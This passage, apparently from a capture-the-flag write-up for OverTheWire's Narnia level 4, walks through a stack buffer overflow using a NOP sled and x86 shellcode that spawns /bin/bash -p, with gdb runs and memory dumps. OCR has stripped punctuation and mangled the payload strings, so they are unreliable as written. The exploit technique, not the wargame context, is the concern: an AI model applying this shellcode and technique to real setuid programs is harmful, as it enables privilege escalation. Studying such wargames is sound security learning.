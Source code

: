 We can see that the NOP sled starts at 0xffffcec0  and the shellcode starts at 0xffffcf24  So the eip register can point to any address within the boundaries of these two address  the address of 0xffffcf08 was arbitrarily chosen  any address within the nop sled would work  

   highlight bash   
pwndbg  r   python  c  print  A  264  x08xcfxffxff  4  x90  100  x6ax0bx58x99x52x66x68x2dx70x89xe1x52x6ax68x68x2fx62x61x73x68x2fx62x69x6ex89xe  
3x52x51x53x89xe1xcdx80                                                                                                                                                 
Starting program   home 0xd4y business other overthewire narnia 4 narnia4   python  c  print  A  264  x08xcfxffxff  4  x90  100  x6ax0bx58x99x52x66x68x2dx70x89xe1x52x6ax68x68x2fx62x61x73x68x2fx62x69x6ex89xe3x52x51x53x89xe1xcdx80                                                                             
   endhighlight   

     reports Narnia image11 png 

Expectedly  using this same methodology on the target machine results in successful exploitation 

   highlight bash   
 gdb  r   python  c  print  A  264   B  4  x90  100  x6ax0bx58x99x52x66x68x2dx70x89xe1x52x6ax68x68x2fx62x61x73x68x2fx62x69x6ex89xe3x52x51x53x8  
9xe1xcdx80                                                                                                                                                                 
Starting program   narnia narnia4   python  c  print  A  264   B  4  x90  100  x6ax0bx58x99x52x66x68x2dx70x89xe1x52x6ax68x68x2fx62x61x73x68x2fx62x69  
x6ex89xe3x52x51x53x89xe1xcdx80     
  
Program received signal SIGSEGV  Segmentation fault   
0x42424242 in        
 gdb  x 100x  esp 200  
0xffffd378      0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd388      0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd398      0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd3a8      0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd3b8      0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd3c8      0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd3d8      0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd3e8      0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd3f8      0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd408      0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd418      0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd428      0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd438      0x41414141      0x42424242      0x90909090      0x90909090  
0xffffd448      0x90909090      0x90909090      0x90909090      0x90909090  
0xffffd458      0x90909090      0x90909090      0x90909090      0x90909090  
0xffffd468      0x90909090      0x90909090      0x90909090      0x90909090  
0xffffd478      0x90909090      0x90909090      0x90909090      0x90909090  
0xffffd488      0x90909090      0x90909090      0x90909090      0x90909090  
0xffffd498      0x90909090      0x90909090      0x90909090      0x99580b6a  
0xffffd4a8      0x2d686652      0x52e18970      0x2f68686a      0x68736162  
0xffffd4b8      0x6e69622f      0x5152e389      0xcde18953      0xf7fe0080  
0xffffd4c8      0xffffd4cc      0xf7ffd920      0x00000002      0xffffd626
   endhighlight   

Seeing as the NOP sled begins at 0xffffd440  and the shellcode begins at 0xffffd4a4  any address within the bounds of these two addresses will result in the execution of the shellcode  Using the same payload as the one on the attack box with the modification of the address surprisingly results in a  Segmentation fault  
